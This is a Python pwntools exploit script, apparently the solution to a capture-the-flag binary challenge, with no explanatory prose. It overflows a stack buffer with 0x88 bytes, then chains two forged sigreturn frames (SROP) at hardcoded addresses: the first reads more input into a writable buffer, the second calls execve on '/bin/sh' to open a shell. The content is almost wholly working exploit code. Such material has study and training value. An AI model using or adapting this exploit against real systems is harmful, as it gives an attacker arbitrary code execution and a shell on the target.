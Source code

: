 ```plain
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

syscall_ret=0x0000000000401033
pop_syscall=0x0000000000401032
buf=0x0000000000402000

#fake stack
sigFrame=SigreturnFrame()
sigFrame.rax=0
sigFrame.rdi=0
sigFrame.rbp=buf+0x20
sigFrame.rsi=buf
sigFrame.rdx=0x1000
sigFrame.rip=syscall_ret

ru('?')
pl=b'a'*0x88+p64(pop_syscall)+p64(15)+bytes(sigFrame)
sl(pl)
gdb.attach(p)
pause()

#getshell
sigFrame=SigreturnFrame()
sigFrame.rax=59
sigFrame.rdi=buf
sigFrame.rsi=0
sigFrame.rdx=0
sigFrame.rip=syscall_ret

pl2=b'/bin/sh\00'
pl2=pl2.ljust(0x28,b'A')
pl2 += p64(pop_syscall)+p64(15)+bytes(sigFrame)
sl(pl2)
p.interactive()
```

[![](assets/1701612132-8e6937ba04856bcba65420e3488efb33.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230818001643-74e8618c-3d19-1.png)
